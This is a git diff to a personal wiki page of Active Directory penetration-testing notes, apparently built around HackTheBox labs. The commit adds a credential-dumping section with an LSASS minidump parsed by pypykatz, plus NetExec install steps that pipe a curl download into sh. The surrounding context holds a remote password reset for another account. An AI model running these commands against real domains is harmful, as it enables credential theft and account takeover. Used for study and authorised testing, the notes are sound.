

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 1297 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -62,7 +62,7 @@ Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object
 ```
 
 [SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
-```gppdecrypt```
+gppdecrypt
 
 [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
 
@@ -81,9 +81,32 @@ Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object
 net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
 ```
 
+## Credential Dumping
+[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)
+
+**Requires:** Credential Guard to be disabled.
+
+```
+Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
+```
+
+[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)
+
+**Requires:** A DMP file containing credentials extracted to our Linux machine.
+```
+pypykatz lsa minidump lsass.DMP
+```
+
 -----------------------------------------------------------------------
 
 ## Active Directory Tools
+[NetExec](https://github.com/Pennyw0rth/NetExec)
+```
+curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
+source $HOME/.cargo/env
+pipx install git+https://github.com/Pennyw0rth/NetExec
+```
+
 [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
 ```. .\powerview.ps1```
 
````
